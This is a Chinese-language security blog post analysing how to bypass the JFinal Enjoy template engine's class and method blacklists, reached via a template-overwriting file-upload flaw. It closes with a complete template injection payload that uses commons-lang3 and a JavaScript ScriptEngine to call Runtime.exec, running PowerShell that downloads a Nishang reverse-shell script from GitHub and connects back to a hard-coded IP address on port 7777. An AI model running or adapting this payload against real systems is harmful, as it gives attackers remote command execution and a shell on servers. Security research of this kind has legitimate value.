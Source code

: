 ```yaml
---
title: "JFinal Enjoy Template Engine命令执行绕过分析"
date: 2021-03-07T22:07:36+08:00
draft: false
categories: ["security"]
---
```


## 分析
上周代码审计一个系统，发现系统是基于JFinal框架，是一个国产比较出名的框架（还挺好用），JFinal默认不支持直接访问jsp，系统使用的官方的Enjoy模板引擎。

当时发现了一个文件上传漏洞，可以覆盖系统中的存在的模板文件，于是想通过模板引擎执行命令，但是发现Enjoy存在一些安全防护，如下所示，是Enjoy的一些黑名单：

类黑名单：

![Enjoy类黑名单][p1]

方法黑名单：

![Enjoy方法黑名单][p2]

当时查看官方文档，发现Enjoy模板引擎，只能直接调用Java中的静态方法，如果想调用实例方法，只有配置了sharedObject或者render模板视图之前set了Object才能调用对象的实例方法，不能直接new一个对象来调用；于是现在就是根据如下条件，来达到命令执行的目的：

- 只能调用公共静态方法；
- 不能调用类黑名单中的类；
- 不能调用方法黑名单中的方法；

不使用new的方式，常用的依赖于JDK来达到命令执行的方法，无非就是通过反射或类加载器来实例化ProcessBuilder对象来执行命令，或者通过反射调用java.lang.Runtime的exec()方法来执行命令；但是无论是通过反射还是类加载器，经过我大量测试，根本绕不过黑名单（不仅存在类名单，还存在方法黑名单，实在是难顶）。

最终，突然灵机一闪！我为何要使用JDK中的API呢！！！于是我直接 **查看系统中使用了哪些第三方依赖** ，发现使用了commons-lang3，好家伙，就是你了！这个工具包中存在很多类似ClassUtils等工具，完全可以使用这些工具类来绕过黑名单。

## Payload
这里提供我写的一个利用commons-lang3绕过的payload，其中一些说明如下：

- 利用 `java.net.URLClassLoader` 绕过 `ClassLoader` 黑名单；
- 利用 `ScriptEngineManager` 获取JS脚本引擎，通过 `eval()` 动态执行 `java.lang.Runtime.getRuntime().exec()` ,来执行命令；

以下是完整的payload（作用是windows下反弹powershell）： 

	#set(x=(java.net.URLClassLoader::getSystemClassLoader()).loadClass("javax.script.ScriptEngineManager"))
	#set(payload="powershell -nop -exec bypass -c \\"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress 49.234.105.98 -Port 7777\\"")
	#set(poc="java.lang.Runtime.getRuntime().exec(\""+payload+"\")")
	#((org.apache.commons.lang3.reflect.ConstructorUtils::invokeConstructor(x)).getEngineByExtension("js").eval(poc))









[p1]:./../media/2021-03-07-1.png
[p2]:./../media/2021-03-07-2.png
